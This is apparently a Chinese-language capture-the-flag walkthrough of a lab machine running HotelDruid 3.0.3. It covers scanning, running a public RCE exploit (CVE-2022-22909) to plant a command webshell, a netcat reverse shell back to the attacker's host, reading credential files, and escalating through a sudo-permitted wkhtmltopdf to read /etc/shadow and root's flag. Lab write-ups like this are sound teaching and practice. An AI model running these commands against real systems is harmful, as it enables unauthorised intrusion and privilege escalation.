

# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 22:24 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0016s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00026s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.035s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00025s latency).
MAC Address: 08:00:27:A0:F9:88 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.10 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.8
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 22:24 EDT
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:A0:F9:88 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.8  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 22:25 EDT
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
MAC Address: 08:00:27:A0:F9:88 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.74 seconds
```

# 漏洞利用

80端口


目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.8 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt,jpg,png,zip,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.8
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,jpg,png,zip,git,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 398]
/img                  (Status: 301) [Size: 169] [--> http://192.168.21.8/img/]                                                  
/themes               (Status: 301) [Size: 169] [--> http://192.168.21.8/themes/]                                               
/doc                  (Status: 301) [Size: 169] [--> http://192.168.21.8/doc/]                                                  
/includes             (Status: 301) [Size: 169] [--> http://192.168.21.8/includes/]                                             
/api.php              (Status: 200) [Size: 0]
/clienti.php          (Status: 200) [Size: 85]
/dati                 (Status: 301) [Size: 169] [--> http://192.168.21.8/dati/]                                                 
/personalizza.php     (Status: 200) [Size: 114046]
/costi.php            (Status: 200) [Size: 10900]
/messaggi.php         (Status: 200) [Size: 40597]
/prenota.php          (Status: 200) [Size: 15846]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

/personalizza.php


搜索一下相关漏洞

```markup
┌──(kali㉿kali)-[~]
└─$ searchsploit HotelDruid 3.0.3
------------------------------ ---------------------------------
 Exploit Title                |  Path
------------------------------ ---------------------------------
Hotel Druid 3.0.3 - Remote Co | php/webapps/50754.py
------------------------------ ---------------------------------
Shellcodes: No Results
                                                                
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 50754        
  Exploit: Hotel Druid 3.0.3 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50754
     Path: /usr/share/exploitdb/exploits/php/webapps/50754.py
    Codes: CVE-2022-22909
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/50754.py
```

利用脚本

```markup
┌──(kali㉿kali)-[~]
└─$ python3 50754.py -t http://192.168.21.8 --noauth 
/home/kali/50754.py:75: SyntaxWarning: invalid escape sequence '\ '
  | $$  | $$  /$$$$$$  /$$$$$$    /$$$$$$ | $$      | $$  \ $$  /$$$$$$  /$$   /$$ /$$  /$$$$$$$

 /$$   /$$             /$$               /$$       /$$$$$$$                      /$$       /$$
| $$  | $$            | $$              | $$      | $$__  $$                    |__/      | $$
| $$  | $$  /$$$$$$  /$$$$$$    /$$$$$$ | $$      | $$  \ $$  /$$$$$$  /$$   /$$ /$$  /$$$$$$$
| $$$$$$$$ /$$__  $$|_  $$_/   /$$__  $$| $$      | $$  | $$ /$$__  $$| $$  | $$| $$ /$$__  $$
| $$__  $$| $$  \ $$  | $$    | $$$$$$$$| $$      | $$  | $$| $$  \__/| $$  | $$| $$| $$  | $$
| $$  | $$| $$  | $$  | $$ /$$| $$_____/| $$      | $$  | $$| $$      | $$  | $$| $$| $$  | $$
| $$  | $$|  $$$$$$/  |  $$$$/|  $$$$$$$| $$      | $$$$$$$/| $$      |  $$$$$$/| $$|  $$$$$$$
|__/  |__/ \______/    \___/   \_______/|__/      |_______/ |__/       \______/ |__/ \_______/

Exploit By - 0z09e (https://twitter.com/0z09e)


[*] Trying to access the Dashboard.
[*] Checking the privilege of the user.
[+] User has the privilege to add room.
[*] Adding a new room.
[+] Room has been added successfully.
[*] Testing code exection
[+] Code executed successfully, Go to http://192.168.21.8/dati/selectappartamenti.php and execute the code with the parameter 'cmd'.
[+] Example : http://192.168.21.8/dati/selectappartamenti.php?cmd=id
[+] Example Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

反弹shell

```markup
http://192.168.21.8/dati/selectappartamenti.php?cmd=nc%20192.168.21.11%204444%20-e%20/bin/bash;

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444         
listening on [any] 4444 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.21.8] 60846
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 提权

看看都有什么

```markup
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@hotel:~/html/hoteldruid/dati$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

sudo: 3 incorrect password attempts
www-data@hotel:~/html/hoteldruid/dati$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/bin/su
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
www-data@hotel:~/html/hoteldruid/dati$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
www-data@hotel:~/html/hoteldruid/dati$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
person:x:1000:1000:person,,,:/home/person:/bin/bash
```

找到了数据库账号密码

```markup
www-data@hotel:~/html/hoteldruid/dati$ cat dati_connessione.php
cat dati_connessione.php
<?php
$PHPR_DB_TYPE = "mysqli";
$PHPR_DB_NAME = "hotel";
$PHPR_DB_HOST = "localhost";
$PHPR_DB_PORT = "3306";
$PHPR_DB_USER = "adminh";
$PHPR_DB_PASS = "adminp";
$PHPR_LOAD_EXT = "";
$PHPR_TAB_PRE = "";
$PHPR_LOG = "NO";
```

继续找找看

```markup
www-data@hotel:~/html$ ls -la
ls -la
total 16
drwxr-xr-x 3 root     root     4096 Feb 20  2022 .
drwxr-xr-x 3 root     root     4096 Feb 20  2022 ..
drwxr-xr-x 7 person   person   4096 Aug 18  2021 hoteldruid
-rw-r--r-- 1 www-data www-data 1592 Feb 20  2022 ttylog
```


提权



```markup
www-data@hotel:~/html$ su person
su person
Password: Endur4nc3.

person@hotel:/var/www/html$ id
id
uid=1000(person) gid=1000(person) grupos=1000(person),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

找找有什么

```markup
person@hotel:~$ sudo -l
sudo -l
Matching Defaults entries for person on hotel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User person may run the following commands on hotel:
    (root) NOPASSWD: /usr/bin/wkhtmltopdf
person@hotel:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/bin/su
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
person@hotel:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
person@hotel:~$ ls -la
ls -la
total 32
drwxr-xr-x 3 person person 4096 feb 20  2022 .
drwxr-xr-x 3 root   root   4096 feb 20  2022 ..
-rw-r--r-- 1 person person  220 feb 20  2022 .bash_logout
-rw-r--r-- 1 person person 3526 feb 20  2022 .bashrc
drwxr-xr-x 3 person person 4096 feb 20  2022 .local
-rw-r--r-- 1 person person  807 feb 20  2022 .profile
-rw------- 1 person person   19 feb 20  2022 user.txt
-rw------- 1 person person   51 feb 20  2022 .Xauthority
```

user.txt

```markup
person@hotel:~$ cat user.txt
cat user.txt
RUvSNcQ3m2OyHzxHMV
```

root.txt


```markup
person@hotel:~$ sudo /usr/bin/wkhtmltopdf /etc/shadow shadow.pdf
QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root'
Loading page (1/2)
[>                                                           ] 0[============================================================] 1Error: Failed loading page file:///etc/shadow (sometimes it will work just to ignore this error with --load-error-handling ignore)
Exit with code 1, due to unknown error.
person@hotel:~$ sudo /usr/bin/wkhtmltopdf /root/root.txt root.pdf
QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root'
Loading page (1/2)
[>                                                           ] 0[==============================>                             ] 5[============================================================] 1Printing pages (2/2)                                               
Done                                                           
person@hotel:~$ ls -la
total 40
drwxr-xr-x 3 person person 4096 abr 10 05:34 .
drwxr-xr-x 3 root   root   4096 feb 20  2022 ..
-rw-r--r-- 1 person person  220 feb 20  2022 .bash_logout
-rw-r--r-- 1 person person 3526 feb 20  2022 .bashrc
drwxr-xr-x 3 person person 4096 feb 20  2022 .local
-rw-r--r-- 1 person person  807 feb 20  2022 .profile
-rw-r--r-- 1 root   root   7617 abr 10 05:34 root.pdf
-rw------- 1 person person   19 feb 20  2022 user.txt
-rw------- 1 person person   51 feb 20  2022 .Xauthority
```

下载下来查看一下

